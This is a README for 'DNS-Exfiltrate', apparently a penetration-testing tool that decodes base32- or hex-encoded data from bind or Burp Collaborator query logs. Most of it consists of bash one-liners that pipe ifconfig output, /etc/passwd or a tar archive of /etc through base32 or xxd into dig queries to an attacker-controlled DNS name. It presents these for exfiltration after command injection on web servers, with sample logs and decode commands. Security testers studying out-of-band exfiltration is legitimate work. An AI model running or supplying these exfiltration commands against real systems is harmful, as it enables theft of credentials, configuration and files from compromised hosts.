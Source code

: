 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (an can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a file:

```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d
```

### Exfiltrate a compressed file:

```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | base32 -d > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log | base32 -d 
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | base32 -d | zcat
```

## Hex Support

Hex support is coming, here's how to send hex-encoded data. Note that the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

Send STDOUT:
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a file:
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed file:
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Send a compressed tar archive:
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode (using bash):
```
grep <DNS Name> collaborator.log| cut -d\[ -f3 | cut -d \. -f1 | tr -d '\n' | xxd -r -p
```
